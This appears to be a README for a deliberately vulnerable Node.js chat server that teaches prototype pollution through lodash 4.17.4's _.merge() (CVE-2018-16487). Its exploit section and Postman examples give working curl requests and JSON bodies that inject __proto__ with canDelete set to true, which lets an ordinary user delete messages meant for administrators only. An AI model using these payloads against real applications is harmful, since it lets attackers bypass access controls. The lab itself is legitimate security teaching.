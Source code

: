 # Prototype Pollution in JavaScript

Prototype Pollution is a vulnerability affecting JavaScript. Prototype Pollution refers to the ability to inject properties into existing JavaScript language construct prototypes, such as objects. JavaScript allows all Object attributes to be altered, including their magical attributes such as `__proto__`, `constructor` and `prototype`. An attacker manipulates these attributes to overwrite, or pollute, a JavaScript application object prototype of the base object by injecting other values. Properties on the `Object.prototype` are then inherited by all the JavaScript objects through the prototype chain. When that happens, this leads to either denial of service by triggering JavaScript exceptions, or it tampers with the application source code to force the code path that the attacker injects, thereby leading to remote code execution.

If you want to learm more about the vulnerability you are welcome to explore [the interactive leasson](https://learn.snyk.io/lessons/prototype-pollution/javascript/) provided by Snyk.

## Example Application

This is example chat server vulnerable to Prototype Pollution.

- `GET /` - List all messages (available without authentication).
  ```bash
  curl --request GET --url http://localhost:3000/
  ```
- `PUT /` - Post a new message (only registered users).
  ```bash
  curl --request PUT \
    --url http://localhost:3000/ \
    --header 'content-type: application/json' \
    --data '{"auth": {"name": "user", "password": "pwd"}, "message": {"text": "Hi!"}}'
  ```
- `DELETE /` - Delete a message (only administrators).
  ```bash
  curl --request DELETE \
    --url http://localhost:3000/ \
    --header 'content-type: application/json' \
    --data '{"auth": {"name": "admin", "password": "???"}, "messageId": 2}'
  ```

An attacker target here is to delete message without administrator credentials.

## Run

- `npm install`
- `npm start`

## Vulnerability

The Prototype Pollution vulnerability (CVE-2018-16487) introduced by [lodash@4.17.4](https://www.npmjs.com/package/lodash/v/4.17.4) via `_.merge()` function. More details about the issue you can find on [Snyk website](https://snyk.io/vuln/SNYK-JS-LODASH-73638).

## How To Exploit

1. Send evil message with `__proto__`.
   ```bash
   curl --request PUT \
     --url http://localhost:3000/ \
     --header 'content-type: application/json' \
     --data '{"auth": {"name": "user", "password": "pwd"}, "message": { "text": "😈", "__proto__": {"canDelete": true}}}'
   ```
2. Delete any message you want using user's credentials.
   ```bash
   curl --request DELETE \
     --url http://localhost:3000/ \
     --header 'content-type: application/json' \
     --data '{"auth": {"name": "user", "password": "pwd"}, "messageId": 1}'
   ```

## Postman

You can use Postmen for the HTTP requests.

PUT message at http://localhost:3000
```
{ 
	"auth": {"name": "user", "password": "pwd"},
	"message": { "text": "😈", "__proto__": {"canDelete": true}}
}
```

DELETE message at http://localhost:3000
```
{
	"auth": {"name": "user", "password": "pwd"}, 
	"messageId": 1
}
```
